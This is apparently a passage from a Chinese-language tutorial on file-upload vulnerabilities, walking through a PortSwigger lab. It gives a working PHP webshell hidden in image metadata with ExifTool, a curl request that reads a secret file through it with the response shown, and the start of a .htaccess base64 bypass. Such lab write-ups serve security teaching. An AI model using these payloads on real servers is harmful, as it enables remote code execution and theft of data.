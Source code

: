 这种方式虽较文件扩展名验证更为稳健，但仍非万全之策。借助ExifTool等专业工具，攻击者可轻易在JPEG文件的元数据中嵌入恶意代码，构造出兼具合法图像外壳与隐蔽攻击载荷的特殊文件（业内称为polyglot文件）。



准备一张 png 图片，命名为 aaa.png，使用 ExifTool 工具将图片元数据信息修改为 php 的 webshell 代码。

```
exiftool.exe -Comment="<?php system($_GET['command']); ?>" aaa.png
```



输出新的文件会命名为 **aaa.png_original**，将文件名称修改为 aaa.php 并上传到网站中。

当访问 aaa.php 除了 webshell 部分得代码会被解释执行，图片的其他内容会以文本的形式输出，所以在执行命令前后使用 echo 语句，确保能识别命令输出的内容。

```
aaa1.php?command=echo "AAAAAA" ; cat /home/carlos/secret ; echo "BBBBBB"
```

```
curl -i https://0a65006703020cb3806a8a1e009a0025.web-security-academy.net/files/avatars/aaa1.php?command=echo%20%22AAAAA%22%20;%20cat%20/home/carlos/secret%20;%20echo%20%22BBBBBB%22
```

```
HTTP/1.1 200 OK
Date: Sun, 09 Mar 2025 08:20:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Set-Cookie: session=qpBipMgEGdJQhNcb54Pe41kZaftv0efL; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 460264

...
AAAAA pHwQ3suPg6NBdMSyCsRLSGKlnkjXBoOFBBBBBB
...
```



文件 **/home/carlos/secret** 内容为：**pHwQ3suPg6NBdMSyCsRLSGKlnkjXBoOF**



### 编码绕过

部分服务端会对上传的文件进行字符串扫描（即使上传图片也会进行字符串扫描），禁止文件中存在 PHP 语法。



攻击者可通过上传恶意`.htaccess`文件，结合 Base64 编码与 PHP 解析机制实现代码执行。首先，上传包含以下内容的 `.htaccess` 文件，在读取所有以 `.jpg` 结尾的文件进行 base64 解码，并强制以 PHP 解析：

```
AddType application/x-httpd-php .jpg
php_value auto_append_file "php://filter/convert.base64-decode/resource=1.jpg"
```
